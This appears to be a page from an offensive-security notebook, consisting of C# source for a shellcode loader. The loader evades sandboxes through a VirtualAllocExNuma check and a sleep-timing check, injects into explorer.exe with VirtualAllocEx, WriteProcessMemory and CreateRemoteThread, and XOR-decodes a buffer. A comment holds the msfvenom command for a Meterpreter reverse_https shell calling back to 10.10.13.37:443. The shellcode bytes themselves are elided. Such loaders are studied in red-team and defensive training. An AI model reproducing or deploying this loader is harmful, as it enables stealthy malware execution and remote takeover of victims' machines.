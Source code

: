 ```csharp
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        public static void Run()
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            Process[] pList = Process.GetProcessesByName("explorer");
            if (pList.Length == 0)
            {
                // Console.WriteLine("[-] No such process!");
                System.Environment.Exit(1);
            }
            int processId = pList[0].Id;
            // 0x001F0FFF = PROCESS_ALL_ACCESS
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}
